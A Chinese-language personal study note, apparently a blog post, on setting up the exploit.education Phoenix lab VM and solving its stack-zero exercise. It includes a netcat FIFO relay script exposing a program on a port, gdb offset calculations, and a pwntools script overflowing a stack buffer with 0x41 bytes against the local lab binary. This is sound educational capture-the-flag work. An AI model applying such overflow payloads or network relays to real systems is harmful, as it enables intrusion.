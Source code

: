 ```yaml
---
title: "[pwn笔记0]Phoenix环境搭建和stack-zero"
urlname: "[pwn笔记0]Phoenix环境搭建和stack-zero"

date: February 15, 2023 6:13 PM
tags: [pwn, stack]
---
```

找到一个学习pwn的项目[http://exploit.education](http://exploit.education/) ，决定让我临时抱佛脚学的pwn走向正轨，试试开个笔记系列（每次pwntools脚本都忘记怎么写），希望不要半路弃坑。定个小目标，至少把Phoenix系列做完吧。

## 环境配置

首先在more-downloads里下载phoenix的虚拟机系统镜像，根据你的架构选择。这就是靶机。在启动之前，我们需要安装`qemu-system-x86` （64位的也在同一个包里（archlinux））

运行`boot-balabala.sh`启动虚拟机，默认在2222端口开启ssh。用户名和密码都是user。

如果你想使用netcat来转发里面的程序，只需在启动脚本里添加另一个端口转发，这里放网络那一整行为例。

```bash
-netdev user,id=unet,hostfwd=tcp:127.0.0.1:2222-:22,hostfwd=tcp:127.0.0.1:3333-:3333
```

然后在虚拟机里执行

```bash
mkfifo io
```

并创建一个脚本文件（start.sh）

```bash
#!/bin/bash
cat io|$1 -i 2>&1|nc -l 3333 > io
```

然后你就可以通过`sh start.sh /opt/phoenix/amd64/stack-zero` 这样的方式来开netcat了，端口3333记得要和启动脚本里的匹配。

虚拟机里的gdb默认装了gef但是我不太会用，所以scp了一份peda进去。略过。

宿主机再装个非常方便的pwntools：`pip install pwntools`

## stack-zero

程序比较简单，直接用cutter了。

![深度截图_选择区域_20230215183930.png](%5Bpwn%E7%AC%94%E8%AE%B00%5DPhoenix%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%92%8Cstack-zero%20366826c7bb10483aa08121888111f984/%25E6%25B7%25B1%25E5%25BA%25A6%25E6%2588%25AA%25E5%259B%25BE_%25E9%2580%2589%25E6%258B%25A9%25E5%258C%25BA%25E5%259F%259F_20230215183930.png)

（其实exploit.education的网页上给了源码）（开头的注释甚至是个冷笑话草草草）

我们现在要让s溢出到var_10h(changeme)，内容随便。打开gdb，计算一下距离，先随便输入点什么。

![Untitled](%5Bpwn%E7%AC%94%E8%AE%B00%5DPhoenix%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%92%8Cstack-zero%20366826c7bb10483aa08121888111f984/Untitled.png)

字符串在`0x620`这里。

![Untitled](%5Bpwn%E7%AC%94%E8%AE%B00%5DPhoenix%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%92%8Cstack-zero%20366826c7bb10483aa08121888111f984/Untitled%201.png)

判断语句，changeme在`rbp-0x10` 这里也就是`0x670-0x10` 

计算`0x660-0x620=0x40`

那么我们只要输出`0x41`个a即可

为了练习使用pwntools，写个代码。

这里直接用ssh连了，nc都不需要。

```python
from pwn import *

shell = ssh("user", "localhost", password="user", port=2222)
sh = shell.run("/opt/phoenix/amd64/stack-zero")
print(sh.recvline())
sh.sendline(b"a"*0x41)
print(sh.recvline())
shell.close()
```

成功

![Untitled](%5Bpwn%E7%AC%94%E8%AE%B00%5DPhoenix%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%92%8Cstack-zero%20366826c7bb10483aa08121888111f984/Untitled%202.png)
